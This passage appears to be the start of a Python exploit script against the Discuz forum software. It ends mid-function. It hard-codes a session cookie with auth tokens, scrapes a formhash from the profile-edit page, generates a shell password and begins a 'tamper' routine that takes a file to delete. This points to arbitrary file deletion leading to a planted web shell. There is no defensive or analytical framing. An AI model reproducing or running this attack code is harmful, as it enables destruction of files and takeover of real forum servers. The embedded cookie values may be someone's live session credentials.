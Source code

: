 ```
# login target site first, and copy the cookie here

cookie = “UM_distinctid=15bcd2339e93d6-07b5ae8b41447e-8373f6a-13c680-15bcd2339ea636; CNZZDATA1261218610=1456502094-1493792949-%7C1494255360; csrftoken=NotKIwodOQHO0gdMyCAxpMuObjs5RGdeEVxRlaGoRdOEeMSVRL0sfeTBqnlMjtlZ; Zy4Q_2132_saltkey=I9b3k299; Zy4Q_2132_lastvisit=1506763258; Zy4Q_2132_ulastactivity=0adb6Y1baPukQGRVYtBOZB3wmx4nVBRonRprfYWTiUaEbYlKzFWL; Zy4Q_2132_nofavfid=1; Zy4Q_2132_sid=rsQrgQ; Zy4Q_2132_lastact=1506787935%09home.php%09misc; 7Csx_2132_saltkey=U8nrO8Xr; TMT0_2132_saltkey=E3q5BpyX; PXMk_2132_saltkey=rGBnNWu7; b4Gi_2132_saltkey=adC4r05k; b4Gi_2132_lastvisit=1506796139; b4Gi_2132_onlineusernum=2; b4Gi_2132_sendmail=1; b4Gi_2132_seccode=1.8dab0a0c4ebfda651b; b4Gi_2132_sid=BywqMy; b4Gi_2132_ulastactivity=51c0lBFHqkUpD3mClFKDxwP%2BI0JGaY88XWTT1qtFBD6jAJUMphOL; b4Gi_2132_auth=6ebc2wCixg7l%2F6No7r54FCvtNKfp1e5%2FAdz2SlLqJRBimNpgrbxhSEnsH5%2BgP2mAvwVxOdrrpVVX3W5PqDhf; b4Gi_2132_creditnotice=0D0D2D0D0D0D0D0D0D1; b4Gi_2132_creditbase=0D0D0D0D0D0D0D0D0; b4Gi_2132_creditrule=%E6%AF%8F%E5%A4%A9%E7%99%BB%E5%BD%95; b4Gi_2132_lastcheckfeed=1%7C1506800134; b4Gi_2132_checkfollow=1; b4Gi_2132_lastact=1506800134%09misc.php%09seccode”

shell_password = randstr()

db_host = ‘’

db_user = ‘’

db_pw = ‘’

db_name = ‘’

#################################################

path = ‘/home.php?mod=spacecp&ac=profile&op=base’

url = target + path

sess.headers.update({

‘User-Agent’: ‘Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36’,

‘Accept’: ‘text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8’,

‘Referer’: url})

# sess.proxies.update({‘http’: ‘socks5://localhost:1080’})

# sess.proxies.update({‘http’: ‘[http://localhost:8080](http://localhost:8080)’})

def login(username=None, password=None):

sess.headers.update({‘Cookie’: cookie})

def get_form_hash():

r = sess.get(url)

match = re.search(r’“member.php?mod=logging&amp;action=logout&amp;formhash=(.*?)”’, r.text, re.I)

if match:

return match.group(1)

def tamper(formhash, file_to_delete):

data = {

‘formhash’: (None, formhash),
```